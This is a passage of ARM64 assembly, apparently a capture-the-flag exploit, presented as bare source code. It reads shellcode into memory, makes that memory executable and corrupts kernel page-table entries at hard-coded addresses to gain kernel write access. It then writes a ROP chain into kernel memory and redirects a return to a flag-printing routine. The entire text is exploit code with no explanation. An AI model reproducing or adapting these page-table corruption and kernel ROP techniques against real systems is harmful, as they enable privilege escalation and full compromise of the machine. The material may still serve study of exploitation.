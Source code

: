 ```asm
    MOV X22, X0

    // gets(mmap_buffer) to read shellcode
    MOV X0, X22
    LDR X8, =0x4019B0
    BLR X8

    // change prot of mmap_buffer
    // mprotect(mmap_buffer, 0x1000, 5)
    MOV X0, X22
    MOV X1, #0x1000
    MOV W2, #5 // rx
    MOV X8, #0xe2
    SVC 0

    LDR X12, =0xffffffffc0028fe0
    MOV X0, XZR
    ADD X1, X12, #6 // overwrite [54:53]
    MOV W2, #1
    MOV X8, #0x3f
    SVC 0
    // after: [last] ffffffffc0028fe0 -> 00007ffeffffc000: 0x0000000000035000 [ELx/R]

    // we need to mmap a new memory to flush TLB
    MOV X0, XZR // XZR is zero register
    MOV X1, #0x1000 // len=0x1000
    MOV W2, #3 // prot=rw
    MOV W3, #0 // fd=0
    MOV W4, #0 // flags=0
    MOV X5, #-1 // offset=-1
    MOV X8, #0xde
    SVC 0

    // write ROP
    LDR X10, =0xffffffffc0019c00
    MOV X9, #0
    .loop:
        MOV X0, #0
        ADD X1, X10, X9
        MOV W2, #1
        MOV X8, #0x3f
        SVC 0 // read(0, buffer=target, n=1)
        ADD X9, X9, #1
        MOV X11, #0x10 // do 0x10 time
        CMP X9, X11
    B.MI .loop
	# overwrite return gadget
	# and return to print_el1_flag
    LDR X10, =0xffffffffc0019bb8+1
    NOP
    MOV X0, #0
    ADD X1, X10, #0
    MOV W2, #1
    MOV X8, #0x3f
    SVC 0
```
